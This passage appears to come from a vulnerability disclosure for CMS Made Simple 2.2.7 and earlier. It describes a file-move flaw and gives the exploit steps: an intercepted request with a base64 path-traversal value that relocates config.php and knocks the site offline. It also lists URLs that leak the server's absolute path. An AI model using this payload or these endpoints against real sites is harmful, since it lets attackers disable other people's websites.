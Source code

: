 <img src="https://statics.symbo1.com/file/symbo1/article-images/5c08d4d19382b.png">

Judging the source file exists and the source file is readable

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c08d4d09d689.png">

Line 85 directly renames the file

To sum up: the whole process, after getting the file name submitted by the user, CMSMS will use base64decode function to decode it, and then only judge the existence of the file and the file readable,hackers can move /config.php to other directories resulting in website DOS.

Exploits: Enter

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c08d69b35ac8.png">

Just select a file, click on the "Move" operation, and then use burp to grab packets

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c08d4d4a0b8c.png">

Modify `m1_selall=` to `m1_selall[]=Li5cY29uZmlnLnBocA==`

`m1_destdir=/NCleanBlue`

Submit the request, /config.php becomes /upload/config.php

Request /index.php and display it as follows

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c08d4d192b1e.png">

## 0x15 CMS Made Simple (CMSMS) <=2.2.7 contains web Site physical path leakage Vulnerability

the following links can get the absolute path to the site

/modules/DesignManager/action.ajax_get_templates.php

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c08d4d303b23.png">

/modules/DesignManager/action.ajax_get_stylesheets.php

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c08d4d475786.png">

/modules/FileManager/dunzip.php

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c08d4d3868bb.png">

/modules/FileManager/untgz.php

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c08d4d4603b2.png">